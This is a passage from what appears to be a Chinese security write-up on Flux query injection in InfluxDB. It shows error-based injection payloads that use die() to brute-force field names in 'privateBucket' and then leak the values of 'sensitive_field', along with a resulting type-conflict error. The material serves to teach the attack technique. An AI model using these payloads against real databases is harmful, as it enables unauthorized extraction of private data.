 也就是这个 bucket 中的所有的结构和其对应的数据类型，那么接下来便可以爆破其字段的名称

```bash
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field =~ /s.*/ and die(msg:r._field))
 //
```

也就是爆破出以`s`开头的字段名称，这个和前面泄露 bucket 名的是一个原理

[![](assets/1706957940-e4f6474bce11475e13f8003ea745f08d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233822-ee7a3b92-c117-1.png)

可以看见这个字段名为：`sensitive_field`  
接下来就是爆其数据了

```bash
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field == "sensitive_field" and die(msg:string(v:r._value)))
 //
```

注意下这里的数据类型！！不然可能会报错 (放出为 int 类型的时候，**因为 r.field 默认为 int 类型**)

```bash
HttpError: runtime error @2:54-2:124: filter: type conflict: string != int
```

[![](assets/1706957940-538e48dc06f64391a3dd0580645f0d85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233828-f207fa88-c117-1.png)
